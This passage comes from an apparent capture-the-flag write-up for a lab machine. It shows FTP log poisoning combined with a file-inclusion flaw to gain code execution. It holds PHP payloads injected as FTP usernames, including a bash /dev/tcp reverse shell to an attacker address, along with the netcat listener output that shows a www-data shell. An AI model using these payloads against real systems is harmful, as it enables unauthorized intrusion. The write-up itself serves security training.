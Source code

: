 ![image-20211130175417591](https://0xdfimages.gitlab.io/img/image-20211130175417591.png)

I can try to log in with FTP, and the new login shows up as well:

![image-20211130175556231](https://0xdfimages.gitlab.io/img/image-20211130175556231.png)

Not only are attempts logged, but the username is in the logs.

I tried another failed login:

    
    
    oxdf@parrot$ ftp 10.10.10.249
    Connected to 10.10.10.249.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.249:oxdf): <?php system('id'); ?>
    331 Please specify the password.
    Password:
    530 Login incorrect.
    Login failed.
    ftp> 
    

On refreshing the page with the logs in LFI, I have code execution:

![image-20211021063650139](https://0xdfimages.gitlab.io/img/image-20211021063650139.png)

### Shell

To get a shell, I logged into FTP again:

    
    
    oxdf@parrot$ ftp 10.10.10.249
    Connected to 10.10.10.249.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.249:oxdf): <?php system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'); ?>
    331 Please specify the password.
    Password:
    530 Login incorrect.
    Login failed.
    ftp> 
    

With `nc` listening, I refreshed the log page:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49566
    bash: cannot set terminal process group (645): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pikaboo:/var/www/html/admin_staging$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I can grab `user.txt` from the only home directory on the host:
